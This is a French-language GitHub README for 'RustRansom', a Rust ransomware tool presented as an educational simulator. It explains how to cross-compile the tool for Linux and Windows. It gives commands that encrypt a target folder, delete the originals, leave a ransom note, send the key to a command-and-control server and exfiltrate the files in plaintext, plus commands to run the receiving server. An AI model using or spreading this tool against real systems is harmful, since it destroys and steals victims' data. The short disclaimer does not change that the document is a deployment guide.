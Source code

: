 # RustRansom

![RustRansom Banner](RustRansom.png)

RustRansom est un simulateur de ransomware écrit en Rust, développé à des fins éducatives et de démonstration. Le projet se compose de deux parties principales :

- **Client RustRansom**  
  Ce programme chiffre les fichiers d’un répertoire cible en utilisant AES-256-GCM, crée un fichier `readme.txt` avec la clé de récupération et des instructions, envoie la clé au serveur de Command & Control (C2) et, en option, exfiltre les fichiers chiffrés (les déchiffre en mémoire avant de les envoyer en clair).

- **Serveur C2 (RustRansom C2 Server)**  
  Un serveur HTTP léger basé sur Warp qui reçoit la clé de chiffrement et les fichiers exfiltrés. Les fichiers reçus sont sauvegardés dans le dossier `exfiltrated_files`.

## Caractéristiques

- **Chiffrement sécurisé** : Utilisation d'AES-256-GCM pour chiffrer les fichiers.
- **Déchiffrement** : Récupération des fichiers via la clé de chiffrement.
- **Exfiltration** : En option, les fichiers chiffrés sont déchiffrés en mémoire et envoyés en clair au serveur C2.
- **Création de Readme** : Génération d'un fichier `readme.txt` dans le répertoire cible, incluant une bannière, la clé de récupération et des instructions pour déchiffrer les fichiers.
- **Multi-plateforme** : Compatible Windows et Linux (via compilation native ou cross-compilation).

## Prérequis

- [Rust](https://www.rust-lang.org/tools/install) (version stable)
- (Optionnel) Pour cross-compiler vers Windows depuis Linux :
  ```sh
  rustup target add x86_64-pc-windows-gnu
  sudo apt-get install gcc-mingw-w64-x86-64
  ```

## Installation et Compilation

Clonez le projet :

```bash
git clone https://github.com/votre-utilisateur/rustransom.git
cd rustransom
```

### Compilation pour Linux

```bash
cargo build --release
```

Les exécutables se trouvent dans `target/release/` :
- Client : `rustransom_client`
- Serveur : `rustransom_server`

### Compilation pour Windows (cross-compilation depuis Linux)

```bash
rustup target add x86_64-pc-windows-gnu
cargo build --release --target x86_64-pc-windows-gnu
```

Les exécutables Windows seront dans `target/x86_64-pc-windows-gnu/release/` :
- Client : `rustransom_client.exe`
- Serveur : `rustransom_server.exe`

## Utilisation

### Client RustRansom

#### Chiffrement

Pour chiffrer un dossier et envoyer la clé au serveur C2 :

```bash
./rustransom_client -e -t /chemin/vers/dossier -s 127.0.0.1 -p 8080 -x
```

Options :
- `-e` : Active le mode chiffrement.
- `-t <dossier>` : Répertoire cible.
- `-s <C2_IP>` : Adresse IP du serveur C2 (par défaut 127.0.0.1).
- `-p <PORT>` : Port du serveur C2 (par défaut 8080).
- `-x` : Active l'exfiltration (les fichiers sont déchiffrés en mémoire et envoyés en clair).
- `-c` : Conserve une copie des fichiers originaux après chiffrement.

Pendant le chiffrement, le client :
- Chiffre tous les fichiers du dossier cible (les fichiers originaux sont supprimés si `-c` n'est pas spécifié).
- Génère un fichier `readme.txt` dans le dossier cible qui contient :
  - La bannière ci-dessus,
  - Le message : "Tous vos fichiers ont été chiffrés par RustRansom! Mais ne vous inquiétez pas, vous pouvez toujours les récupérer avec la clé de récupération.",
  - La clé de récupération,
  - La commande à utiliser pour déchiffrer les fichiers,
  - La liste des fichiers chiffrés.
- Envoie la clé de récupération au serveur C2.
- Si `-x` est activé, chaque fichier chiffré est déchiffré en mémoire et envoyé en clair au serveur C2 via l'endpoint `/files/<nom>`.

#### Déchiffrement

Pour déchiffrer les fichiers dans un dossier :

```bash
./rustransom_client -d -t /chemin/vers/dossier -k <clé_de_récupération>
```

Options :
- `-d` : Active le mode déchiffrement.
- `-t <dossier>` : Répertoire cible.
- `-k <clé>` : Clé de récupération (format hexadécimal, 64 caractères).

#### Affichage de l'aide

```bash
./rustransom_client -h
```

### Serveur C2 (RustRansom C2 Server)

Pour lancer le serveur C2 :

```bash
./rustransom_server -i 0.0.0.0 -p 8080
```

Options :
- `-i <IP>` : Adresse IP sur laquelle écouter.
- `-p <PORT>` : Port d'écoute.

Pour afficher l'aide :

```bash
./rustransom_server -h
```

## Avertissement

Ce projet est destiné à des fins éducatives uniquement. Son utilisation non autorisée ou malveillante est strictement interdite. Utilisez-le dans un environnement de test et obtenez toujours les autorisations nécessaires avant d'effectuer des tests sur des systèmes réels.

## Contribuer

Les contributions sont les bienvenues ! Veuillez ouvrir une issue ou soumettre une pull request pour proposer des améliorations ou des corrections.

## Licence

Ce projet est sous licence MIT. Consultez le fichier [LICENSE](LICENSE) pour plus de détails.
